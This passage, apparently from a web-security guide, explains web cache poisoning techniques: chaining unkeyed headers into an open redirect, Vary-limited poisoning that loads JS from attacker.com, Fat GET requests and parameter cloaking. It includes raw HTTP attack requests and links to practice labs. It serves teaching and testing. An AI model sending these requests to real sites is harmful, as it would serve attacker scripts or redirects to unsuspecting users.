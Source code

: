 Sometimes you will need to **exploit several unkeyed inputs** to be able to abuse a cache. For example, you may find an **Open redirect** if you set `X-Forwarded-Host` to a domain controlled by you and `X-Forwarded-Scheme` to `http`.**If** the **server** is **forwarding** all the **HTTP** requests **to HTTPS** and using the header `X-Forwarded-Scheme` as the domain name for the redirect. You can control where the page is pointed by the redirect.

```markup
GET /resources/js/tracking.js HTTP/1.1
Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
X-Forwarded-Host: ac8e1f8f1fb1f8cb80586c1d01d500d3.web-security-academy.net/
X-Forwarded-Scheme: http
```

### Exploiting with limited `Vary`header

If you found that the **`X-Host`** header is being used as **domain name to load a JS resource** but the **`Vary`** header in the response is indicating **`User-Agent`**. Then, you need to find a way to exfiltrate the User-Agent of the victim and poison the cache using that user agent:

```markup
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
```

### Fat Get

Send a GET request with the request in the URL and in the body. If the web server uses the one from the body but the cache server caches the one from the URL, anyone accessing that URL will actually use the parameter from the body. Like the vuln James Kettle found at the Github website:

```
GET /contact/report-abuse?report=albinowax HTTP/1.1
Host: github.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

report=innocent-victim
```

There it a portswigger lab about this: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-fat-get)

### Parameter Cloacking

For example it's possible to separate **parameters** in ruby servers using the char **`;`** instead of **`&`**. This could be used to put unkeyed parameters values inside keyed ones and abuse them.

Portswigger lab: [https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws/lab-web-cache-poisoning-param-cloaking)

### Exploiting HTTP Cache Poisoning by abusing HTTP Request Smuggling
